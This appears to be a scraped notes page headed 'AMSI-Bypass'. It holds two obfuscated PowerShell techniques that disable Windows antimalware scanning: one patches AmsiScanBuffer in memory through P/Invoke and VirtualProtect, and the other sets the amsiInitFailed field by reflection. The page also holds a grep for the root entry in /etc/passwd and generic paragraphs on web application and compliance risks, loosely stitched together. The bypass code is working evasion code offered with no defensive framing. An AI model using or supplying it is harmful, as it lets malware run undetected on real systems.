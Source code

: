 # AMSI-Bypass
$ZQCUW = @" 
using System;
using System.Runtime.InteropServices; 
public class ZQCUW { 
	[DllImport("kernel32")] 
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName); 
	[DllImport("kernel32")] 
	public static extern IntPtr LoadLibrary(string name); 
	[DllImport("kernel32")] 
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect); 
} 

"@ 

Add-Type $ZQCUW 

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))") 
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))") 
$p = 0 
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p) 
$TLML = "0xB8" 
$PURX = "0x57" 
$YNWL = "0x00" 
$RTGX = "0x07" 
$XVON = "0x80" 
$WRUD = "0xC3" 
$KTMJX = [Byte[]] ($TLML, $PURX, $YNWL, $RTGX, + $XVON, + $WRUD) 
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

==========================================================================
grep "^root:" /etc/passwd | cut -f4 -d: 

S`eT-It`em('V'+'aR'+'IA'+('blE:1'+'q2')+('uZ'+'x'))([TYpE]("{1}{0}"-F'F','rE'));(Get-varI`A`BLE(('1Q'+'2U')+'zX')-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}"-f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')))."g`etf`iElD"(("{0}{2}{1}"-f('a'+'msi'),'d',('I'+'nitF'+'aile')),("{2}{4}{0}{1}{3}"-f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'))."sE`T`VaLUE"(${n`ULl},${t`RuE})


=============================================================


Operational Risks: The application faces risks like privilege escalation, malicious file uploads compromising data integrity, host header injection, and HTTP request smuggling allowing unauthorized access. Improper session management can lead to session hijacking, disrupting user activities, while content spoofing damages user trust. Application version disclosure exposes vulnerabilities, enabling targeted attacks. Insecure methods and improper input validation pose threats of unauthorized actions and severe impacts on data integrity and availability.

Compliance Risks: Compliance risks include CSRF vulnerabilities, misconfigured CSP violating security standards, and use of vulnerable components breaching regulations on software security. Improper input validation risks non-compliance with data protection standards like PCI DSS, exposing sensitive data to unauthorized access. Addressing these risks is essential to maintain regulatory compliance, protect user data, and avoid legal and financial consequences.

